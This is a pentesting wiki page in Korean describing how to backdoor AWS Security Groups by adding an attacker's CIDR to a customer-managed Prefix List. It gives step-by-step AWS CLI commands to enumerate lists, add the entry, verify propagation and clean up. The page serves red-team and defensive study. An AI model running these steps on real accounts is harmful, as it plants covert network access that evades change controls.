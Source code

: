 # AWS - Managed Prefix Lists를 통한 Security Group 백도어

{{#include ../../../../banners/hacktricks-training.md}}

## 요약
customer-managed Prefix Lists를 악용하여 은밀한 접근 경로를 만듭니다. Security Group (SG) 규칙이 managed Prefix List를 참조하고 있다면, 해당 리스트를 수정할 수 있는 누구나 공격자가 제어하는 CIDRs를 조용히 추가할 수 있습니다. 그 리스트를 참조하는 모든 SG(및 잠재적으로 Network ACL이나 VPC endpoint)는 SG에 눈에 띄는 변경이 없어도 즉시 새로운 범위를 허용하게 됩니다.

## 영향
- 프리픽스 리스트를 참조하는 모든 SG에 대해 허용된 IP 범위가 즉시 확장되어, SG 편집만 모니터링하는 변경 통제를 우회합니다.
- 지속적인 인그레스/이그레스 백도어를 가능하게 합니다: 악의적인 CIDR을 프리픽스 리스트에 숨겨두고 SG 규칙은 변경되지 않은 것처럼 보이게 합니다.

## 요구사항
- IAM 권한:
- `ec2:DescribeManagedPrefixLists`
- `ec2:GetManagedPrefixListEntries`
- `ec2:ModifyManagedPrefixList`
- `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (연결된 SG 식별용)
- 선택 사항: 테스트용으로 새로 생성하는 경우 `ec2:CreateManagedPrefixList`.
- 환경: 대상 customer-managed Prefix List를 참조하는 SG 규칙이 최소 하나 이상 있어야 합니다.

## 변수
```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```
## 공격 단계

1) **후보 prefix lists 및 consumers 열거**
```bash
aws ec2 describe-managed-prefix-lists \
--region "$REGION" \
--query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
--output table

aws ec2 get-managed-prefix-list-entries \
--prefix-list-id "$PREFIX_LIST_ID" \
--region "$REGION" \
--query 'Entries[*].[Cidr,Description]'
```
`aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID`을 사용하여 어떤 SG 규칙이 이 prefix list에 의존하는지 확인하세요.

2) **prefix list에 attacker CIDR를 추가하세요**
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
--region "$REGION"
```
3) **보안 그룹으로의 전파를 검증**
```bash
aws ec2 describe-security-group-rules \
--region "$REGION" \
--filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
--query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
--output table
```
`$ENTRY_CIDR`에서 오는 트래픽은 prefix list가 참조되는 모든 곳에서 이제 허용됩니다 (일반적으로 egress proxies의 outbound 규칙이나 shared services의 inbound 규칙).

## Evidence
- `get-managed-prefix-list-entries`에는 공격자 CIDR과 설명이 반영되어 있습니다.
- `describe-security-group-rules`는 여전히 prefix list를 참조하는 원래의 SG 규칙을 표시합니다(보안 그룹 변경 기록 없음). 그럼에도 새 CIDR에서의 트래픽은 성공합니다.

## Cleanup
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--remove-entries Cidr="$ENTRY_CIDR" \
--region "$REGION"
```
{{#include ../../../../banners/hacktricks-training.md}}
